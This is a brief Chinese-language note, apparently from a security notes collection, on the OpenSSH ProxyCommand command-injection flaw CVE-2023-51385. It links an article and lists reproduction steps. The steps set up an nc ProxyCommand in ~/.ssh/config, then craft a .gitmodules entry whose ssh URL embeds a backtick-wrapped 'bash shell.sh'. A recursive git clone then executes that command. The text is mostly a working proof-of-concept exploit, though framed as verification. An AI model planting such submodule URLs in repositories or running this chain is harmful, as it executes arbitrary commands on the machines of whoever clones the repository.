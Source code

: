 [OpenSSH ProxyCommand命令注入漏洞（CVE-2023-51385）附验证方法](https://mp.weixin.qq.com/s/6LwOlPSVQgwqkSFZ2iys7g)

- 条件 需要在~/.ssh/config 增加如下

```sh
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

方式 1

```sh
git clone https://github.com/vin01/poc-proxycommand-vulnerable
# 修改 .gitmodules
```

方式 2 手动创建

1. 创建仓库
2. 添加子仓库

git submodule add https://gitee.com/xxxx/test

3. 修改 .gitmodules

```sh
[submodule "test"]
	path = test
	url = ssh://`bash shell.sh`foo.example.com/bar
```

4. push
5. `git clone https://github.com/zls1793/CVE-2023-51385_test --recurse-submodules`
